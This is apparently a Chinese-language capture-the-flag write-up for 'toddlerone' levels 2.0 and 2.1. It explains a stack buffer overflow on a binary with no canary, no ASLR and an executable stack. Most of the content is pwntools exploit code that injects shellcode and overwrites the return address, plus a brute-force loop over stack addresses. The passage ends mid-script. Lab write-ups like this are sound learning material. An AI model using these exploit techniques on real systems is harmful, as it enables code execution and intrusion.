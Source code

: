 ```python
```

## level 2

### 2.0

没有开启ASLR，没有开启canary。栈空间具有可执行权限。

将二进制代码写入栈中，然后覆盖返回地址为缓冲区起始地址即可。还是用的level1中的shellcode

```python
from pwn import *

elf = ELF("/challenge/toddlerone_level2.0")

p = process("/challenge/toddlerone_level2.0")

raw_file = open("/home/hacker/exploit/level1/shellcode.bin", 'rb')
raw_file = raw_file.read()
file_bytes = len(raw_file)
print(file_bytes)

buffer_size = 56
padding_size = 8 *3
rbp = 8
address_ = p64(0x7fffffffce60)

payload = raw_file + (buffer_size + padding_size + rbp - file_bytes) * b'A' + address_
p.recvuntil("Payload size: ")
p.sendline(f"{len(payload)}")
p.send(payload)
p.interactive()
```

### 2.1

这一关没有回显了，所以你不能通过回显来判断返回地址应该写成啥。

gdb调试的话，对应的栈空间是会发生变化的。因为gdb可能会添加一些栈帧进去。所以用gdb显示的地址也不行。

但是因为本题关闭了PIE，所以每次栈空间的基址是一样的。
`   0x7ffffffde000     0x7ffffffff000    0x21000        0x0  rwxp   [stack]`

用gdb查看的话，返回地址应该是 `0x7fffffffcf28`。但是gdb返回的栈空间和实际运行的栈空间有差距。

我通过之前2.0的程序观察，单独运行程序，栈基址是 `0x7fffffffcf50`，运行gdb查看程序的话，栈基址是 `0x7fffffffcef0`
差距不大。

所以我选择从 `0x7ffffffc000`开始爆破。最终正确的地址是 `0x7ffffffce20`

```python
from pwn import *


raw_file = open("/home/hacker/exploit/level1/shellcode.bin", 'rb')
raw_file = raw_file.read()
file_bytes = len(raw_file)

elf = ELF("/challenge/toddlerone_level2.1")

base_address = 0x7fffffffc000
# correct_addresss = 0x7fffffffce20
while True:
    p = process("/challenge/toddlerone_level2.1")

    buffer_size = 0x90
    padding_size = 0
```